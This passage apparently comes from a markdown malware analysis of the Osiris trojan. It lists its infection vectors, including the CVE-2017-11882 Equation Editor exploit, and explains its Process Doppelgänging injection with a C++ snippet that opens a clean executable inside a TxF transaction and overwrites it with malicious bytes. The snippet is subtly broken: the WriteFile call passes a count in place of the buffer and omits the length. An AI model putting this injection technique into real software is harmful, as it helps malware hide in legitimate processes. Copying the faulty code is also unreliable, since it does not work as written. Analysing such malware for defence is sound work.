 ![Artifacts](img/8.PNG)

## Infection vector

Osiris has been distributed through multiple means including the following:

>>* Word 2017 Exploit Equation editor ((CVE-2017-11882))
>>* spam email
>>* Microsoft Word documents/RTF attachments with macro/OLE 
>>* Downloaded by loader malware (loader may also be delivered through exploit kit)

## Injection Technique

Osiris doesn’t use the standard Doppelganging technique instead it uses its custom implementation

**How Standard Process Doppelgänging work ?**
1. Transact
   
>* Creating a TxF transaction with a legitimate exe 
>* OverWrite the Legitimate exe with the Malicious code
>* All these changes only happen in the transaction Container and visible only on it

```cpp
// 1- Create Transaction

HANDLE hTransaction=CreateTransaction(NULL,0,0,0,INFINITE,0);

if (INVALID_HANDLE_VALUE==hTransaction)
    return -1;

// 2- Open File in the Transaction Scope

HANDLE hTransactedFile=CreateFileTransacted(TEXT("Path\\To\\Any\\Clean\\Executable.exe"), // legitimate exe

FILE_APPEND_DATA, // Open with writing acess
FILE_SHARE_READ, //  mutible readers
NULL, // no security attributes
OPEN_ALWAYS, // alway open or Create
FILE_ATTRIBUTE_NORMAL, // normal file
NULL, // no attr
hTransaction, // the above transaction handle
NULL, //  no mini version 
NULL); // reserved 

//3- OverWrite the legitimate executable
char buf[Malicious_executable_bytes];

DWORD dwWrittenBytes{0};

WriteFile(hTransactedFile,_countof(buf),&dwWrittenBytes,NULL);


```
